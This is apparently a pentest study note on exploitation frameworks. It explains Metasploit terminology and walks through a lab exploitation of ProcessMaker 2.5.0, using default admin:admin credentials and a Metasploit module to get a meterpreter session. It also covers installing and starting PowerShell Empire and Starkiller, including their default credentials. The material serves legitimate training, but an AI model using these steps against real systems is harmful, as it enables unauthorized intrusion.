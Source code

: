 # 6 - Exploitation Frameworks

## <mark style="color:red;">The Metasploit Framework (MSF)</mark>

* The Metasploit Framework (MSF) is an open-source, robust penetration testing and exploitation framework that is used by penetration testers and security researchers worldwide.
* It provides penetration testers with a robust infrastructure required to automate every stage of the penetration testing life cycle.
* It is also used to develop and test exploits and has one of the world's largest database of public, tested exploits.
* The Metasploit Framework is designed to be modular, allowing for new functionality to be implemented with ease.

### **Essential Terminology**

* **Interface** - Methods of interacting with the Metasploit Framework.
* &#x20;**Module** - Pieces of code that perform a particular task, an example of a module is an exploit.
* **Vulnerability** - Weakness or flaw in a computer system or network that can be exploited.
* **Exploit** - Piece of code/module that is used to take advantage of a vulnerability within a system, service or application.
* **Payload** - Piece of code delivered to the target system by an exploit with the objective of executing arbitrary commands or providing remote access to an attacker.
* **Listener** - A utility that listens for an incoming connection from a target.

### **Metasploit Framework Console**

* The Metasploit Framework Console (MSFconsole) is an easy-to-use all in one interface that provides you with access to all of the functionality of the Metasploit Framework.

### **Penetration Testing With MSF**

* The MSF can be used to perform and automate various tasks that fall under the penetration testing life cycle.
* In order to understand how we can leverage the MSF for penetration testing, we need to explore the various phases of a penetration test and their respective techniques and objectives.
* We can adopt the PTES (Penetration Testing Execution Standard) as a roadmap to understanding the various phases that make up a penetration test and how Metasploit can be integrated in to each phase.

<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

### Practical Demonstration

{% code overflow="wrap" %}
```bash
# nmap scan, we exploited the http server (process maker)
# we did a google search for the default credentials admin:admin

# click the [Admin] tab, Users tab or Settings tab, System information(get the version)-2.5.0

# we do a search with "searchsploit"
searchsploit ProcessMaker

# create a workspace, search ProcessMaker 
use exploit/multi/http/processmaker_exec
options
set PASSWORD admin
set USERNAME admin
set RHOSTS $ip
run/exploit # we get a meterpreter session.
# get the flag in the C:\ root dir. 
```
{% endcode %}





## <mark style="color:red;">PowerShell-Empire</mark>

* PowerShell-Empire (Aka Empire) is a pure PowerShell exploitation/post-exploitation framework built on cryptological-secure communications and flexible architecture.
* Empire implements the ability to run PowerShell agents without needing powershell.exe, rapidly deployable post-exploitation modules ranging from keyloggers to Mimikatz, and adaptable communications to evade network detection, all wrapped up in a usability-focused framework.
* PowerShell Empire recently received an update and is now officially supported and maintained by Kali Linux, more information regarding the update can be found here:
  * [https://kali.org/blog/empire-starkiller/](https://kali.org/blog/empire-starkiller/)

### <mark style="color:orange;">**Starkiller**</mark>

▪ In addition to being updated and modernized, BC Security, the company responsible for maintaining the Empire has also developed a companion to Empire called Starkiller.

▪ Starkiller is a GUI Frontend for the Powershell Empire. It is an Electron application written in VueJS and provides users with an intuitive way of interacting with Empire.

▪ In order to get an understanding of how Empire works and the components that make up the framework, I would recommend going through the official documentation which can be found here: [https://bc-security.gitbook.io/empire-wiki/](https://bc-security.gitbook.io/empire-wiki/)

▪ PowerShell-Empire & Starkiller are both available as packages in the Kali Linux repositories.

### **Practical Demonstration**

{% code overflow="wrap" %}
```bash
sudo apt-get install powershell-empire starkiller #Install PowerShell-Empire and Starkiller.
sudo powershell-empire server # Start the PowerShell-Empire server
sudo powershell-empire client # Start the PowerShell-Empire client, server must be running in order to use the client.

Empire > listeners #Show every active listener
Empire > agents #Show every exploited agents (hosts) you currently have access to

# starkiller is a frontend for powershell empire.
#Default Starkiller credentials empireadmin:password123
```
{% endcode %}



